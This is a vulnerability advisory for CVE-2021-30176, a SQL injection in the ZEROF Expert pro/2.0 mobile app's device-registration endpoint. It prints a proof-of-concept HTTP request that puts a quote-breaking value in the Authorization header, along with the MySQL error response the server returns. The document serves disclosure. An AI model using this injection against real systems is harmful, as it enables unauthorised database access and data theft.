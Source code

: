 # CVE-2021-30176

## Description
The ZEROF Expert pro/2.0 application for mobile devices allows SQL Injection. 

## Additional Information

Parameters received by the web application must be sanitized and filtered to prevent the execution of control constructs

## Vulnerability Type

SQL Injection

## Vendor of Product

Zerof

## Affected Product Code Base

ZEROF Expert pro/2.0 (mobile app)

## Affected Component

affected /v2/devices/add, Authorization header

## Attack Type

Remote

## Impact Code execution

true

## Impact Information Disclosure

true

## Discoverer

- Anna Sidorova 
- AWILLIX LLC

## Attack Vectors

Example:

```
POST /v2/devices/add HTTP/1.1
Host: zerof
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Accept: */*
Connection: close
Date: Thu, 07 Apr 2021 13:40:57 +0300
Content-Length: 241
User-Agent: ZEROF Expert pro/2.0 (com.zerof.expertpro; build:2; iOS 14.4.0) Alamofire/4.8.2
Accept-Language: ru-RU;q=1.0
Authorization: ZWS admin':e4NQCMRQELfsoddJwJPz/YoB3ak=
Accept-Encoding: gzip, deflate

device=?unrecognized?&geo=55.70402368871489%2C37.615802664058954&os=iOS%2014.4&token=f9Q0hE5JRpE%3AAPA91bFP19KGIIwJyLrbTuLwtP_jUvkUqqFM_k4W8czxm3ajT5Rh0jD2OHO_NmRIeY1C9zjzzNS_ch8VlNy2Bnqj5FcIdrWIFEevprpMGf3k96uFHuUsaa3aF8FS-RGwIsY8AXcUYcOP
```

```
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Type: application/json; charset=utf-8
Content-Length: 176
Date: Wed, 07 Apr 2021 10:35:59 GMT
Server: ZEROF Web Server

<html> #42000You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin'')' at line 1 </html>
```

## Reference

- https://pro.zerof.ru
- https://github.com/awillix/research/blob/main/cve/CVE-2021-30176.md